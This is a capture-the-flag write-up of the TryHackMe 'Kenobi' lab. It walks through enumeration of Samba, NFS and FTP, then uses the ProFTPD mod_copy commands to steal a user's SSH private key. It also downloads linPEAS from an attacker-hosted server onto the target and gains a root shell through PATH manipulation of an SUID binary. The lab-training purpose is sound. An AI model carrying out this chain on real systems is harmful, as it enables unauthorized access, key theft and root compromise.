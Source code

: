 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

### [ Make sure you're connected to our network and deploy the machine ]

Done!

---

### [ Scan the machine with nmap, how many ports are open? ]




I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website. This shows that port 80 is open on our target machine.

![screenshot1](../assets/images/kenobi/screenshot1.png)

To enumerate information about the web server, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80.

Next, let's run an **nmap** scan on the server. we can run two nmap scans at one go, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```

While the thorough nmap is running in the background,  we can analyze the results of the quick nmap scan, which tells us that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** are open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case.

While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the **anonymous** share, and it allowed me to do so without requiring any authentication. This is a common misconfiguration on Samba machines, where anonymous login is allowed.

Using the command ```ls``` revealed that there was a **log.txt** file:

![screenshot3](../assets/images/kenobi/screenshot3.png)

The **log.txt** file was just a basic **ProFTPD** configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

Now let's make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

In our case, port 111 gives us access to a **network file system (NFS)**. We can then use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! Let's take note of this finding and try visiting the **FTP server** next.

To do so, we can use **netcat** to connect to the machine on its ftp port.

```
nc 10.10.243.180 21
```

With that, we are successfully connected to the FTP server.

We can then use a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. The command is:

```
searchsploit proftpd 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us 3 possible exploits that could be used.

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, we know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can mount our local computer to the machine and use that to obtain the **id_rsa** file. This will then allow us to access the machine via **ssh** as the user **kenobi**.

To do this, first, we first usedthe **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory in our local computer's **/mnt** directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory onto our local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, we can just navigate to the **/tmp** folder and obtain the **id_rsa** file.

![screenshot7](../assets/images/kenobi/screenshot7.png)

After copying the id_rsa file over to our local machine, we need to make sure that we change its permissions to be **read and write by owner** only. We can do this with ```chmod``` .

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine with the RSA key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

**We are then able to obtain the user flag from the home directory of kenobi.** 

---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command to find any out-of-the-ordinary files. :

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up.

On our local computer, we can host a simple HTTP server using Python's in-built server. To do so, I first ```cd``` into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

On the victim's machine, I used

```
wget http://<YOUR IP_HERE>/linpeas.sh
```

After successfully downloading the linpeas script, I just had to make it an executable file before I could run it. 

After running linpeas, I noticed that there was an interesting file that had its **SUID** bit set => **/usr/bin/menu**:

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running the menu binary, we come across some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set) .

Using the command ```strings```, we can look for human-readable strings on the menu binary.

**Results:**

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

To do so, we first copy the **/bin/sh** shell into a new file called **curl**, Give it the proper permissions (**777**), then put its location into our **PATH**. When the /usr/bin/menu binary is run, it will use our path variable to find the **curl** binary. Thus, it will run the curl binary that we created earlier on, which is actually a copy of **/usr/sh**. 

This will cause a shell to be opened as root, effectively allowing us to escalate our privileges.

![screenshot11](../assets/images/kenobi/screenshot11.png)

*(Example given in TryHackMe)*

Hence, when we run the menu binary and run option 1, which uses the curl binary that we created earlier on, we will be able to gain access to a root shell as root.

![screenshot12](../assets/images/kenobi/screenshot12.png)

**With that, we are able to obtain the root flag from the home directory of the root user, and the room is completed.**





